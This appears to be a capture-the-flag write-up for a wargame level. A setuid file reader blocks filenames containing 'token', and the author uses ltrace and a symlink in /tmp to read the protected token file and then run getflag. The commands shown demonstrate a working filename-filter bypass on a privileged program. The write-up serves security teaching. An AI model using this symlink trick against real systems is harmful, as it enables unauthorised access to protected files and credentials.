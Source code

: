 # Level 08

## Initial Context

- Two file: `level08` and `token`

## Solving the Challenge

### Analyzing

```bash
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

`level08` seems to behave like `cat`:

```bash
$ ./level08
./level08 [file to read]
$ ./level08 /etc/passwd
...
```

But we can't read the `token` file with it:

```bash
$ ./level08 token
You may not access 'token'
```

### Exploiting

Using `ltrace`, we can see that the program use `strstr` to find the string `"token"` in the filename. And only decide to `open` it if no match has been found.

```bash
$ ltrace ./level08 token
...
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token") = 27
...
$ ltrace ./level08 /etc/passwd
...
strstr("/etc/passwd", "token") = NULL
open("/etc/passwd", 0, 014435162522) = 3
...
```

We can't rename the file, but we can create a symlink to it.

```bash
$ ln -s $(pwd)/token /tmp/level08_file
$ ./level08 /tmp/level08_file
....
```

Perfect, now we can log to `flag08` and do `getflag`.

```bash
$ su flag08
$ getflag
Check flag.Here is your token : ....
```